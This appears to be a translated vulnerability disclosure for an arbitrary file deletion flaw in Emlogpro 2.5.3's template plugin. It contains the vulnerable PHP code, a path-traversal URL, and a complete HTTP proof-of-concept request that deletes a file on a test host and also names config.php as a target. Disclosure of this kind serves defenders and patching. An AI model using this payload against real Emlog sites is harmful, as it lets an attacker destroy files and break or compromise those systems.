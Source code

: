 Here's the translation of your text to English while keeping the markdown format unchanged:

---

## Emlogpro 2.5.3 Arbitrary File Deletion Vulnerability

EMLOG is a lightweight open-source blogging and CMS building system that is fast, resource-efficient, and easy to use, making it suitable for websites of various sizes.

A serious vulnerability exists in the latest version 2.5.3 of Emlogpro, where the file `content\plugins\tpl_options\actions\tpl.php` has path traversal and parameter control, allowing arbitrary file deletion.

### Solution Recommendation
It is recommended to update your current system or software to the latest version to fix this vulnerability.

### Vulnerability Analysis
The vulnerable file `content\plugins\tpl_options\actions\tpl.php` is as follows:
```php
<?php
/*
 * Author: Vaimibao-曦颜XY
 * Description: Template setting plugin AJAX handler.
*/

require_once '../../../../init.php';

if (!User::isAdmin()) {
    echo 'Insufficient permissions!';
    exit;
}

// Handle AJAX action
$action = Input::postStrVar('action', '');
if (!isset($action)) {
    echo 'Operation failed, please refresh the page!';
    exit;
}

// Handle AJAX request
if ($action === 'tpl_upload') {
    $origin_image = Input::postStrVar('origin_image', '');
    $ret = uploadCropImg();
    $file_path = $ret['file_info']['file_path'];
    $abs_file_path = '';
    $abs_file_path = strstr($file_path, 'content/uploadfile/');
    if ($abs_file_path === false) {
        echo '{"code":"error","data":"File upload failed"}';
        exit;
    }
    $abs_file_path = BLOG_URL . $abs_file_path;

    // Delete old image
    if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false) {
        $path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
        if (file_exists($path)) {
            unlink($path);
        }
    }

    if (empty($ret['success'])) {
        echo '{"code":"error","data":"' . $ret['message'] . '"}';
        exit;
    }

    if ($file_path) {
        echo '{"code":"success","data":"' . $abs_file_path . '"}';
        exit;
    }
}
```
The main function of this code is to upload new images and delete old ones.

We can control the `origin_image`, which refers to the old image path. The final `unlink` path is constructed with the following condition:
```r
if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false)
```
The path is then concatenated with:
```r
$path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
```
So, we can use path traversal to delete arbitrary files, such as `config.php`:
```r
http://localhost/content/uploadfile/../../config.php
```

### Attacking the Server

First, create a `file.txt` in the app directory of the container (which will be deleted later using the vulnerability).
![png](./1.png)

Log in as an administrator.
Click on Appearance -> Template -> Click on the Header Settings of the Default Template -> Upload any image.
![png](./2.png)

Intercept the request using Burp Suite and change the `origin_image` to the exploit URL:
```r
http://124.220.37.173:8000/content/uploadfile/../../file.txt
```

Complete HTTP request:
```http
POST /content/plugins/tpl_options/actions/tpl.php HTTP/1.1
Host: 124.220.37.173:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38850914281727208123467510771
Content-Length: 6265
Origin: http://124.220.37.173:8000
Connection: close
Referer: http://124.220.37.173:8000/admin/template.php
Cookie: PHPSESSID=936897df99aabaaecb83730927efa59f; EM_AUTHCOOKIE_PY2fzSUL3tB6Rk8Jsjmurk2ZSBCifkIb=admin%7C1768579696%7Ca56b08b3f3d8179dc513fa7c20a40e18; EM_AUTHCOOKIE_IeOWYaYo8d73Rtrkcn8N8zzmOVhFZnsX=admin%7C1768582678%7Cb494dbed29cbe93144bec965430ca811

-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="action"

tpl_upload
-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="image"; filename="logo.png"
Content-Type: image/png

PNG


-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="origin_image"

http://124.220.37.173:8000/content/uploadfile/../../file.txt
-----------------------------38850914281727208123467510771--

```

Screenshot:
![png](./3.png)

After executing the request, we see that the file was successfully deleted:
![png](./4.png)

---
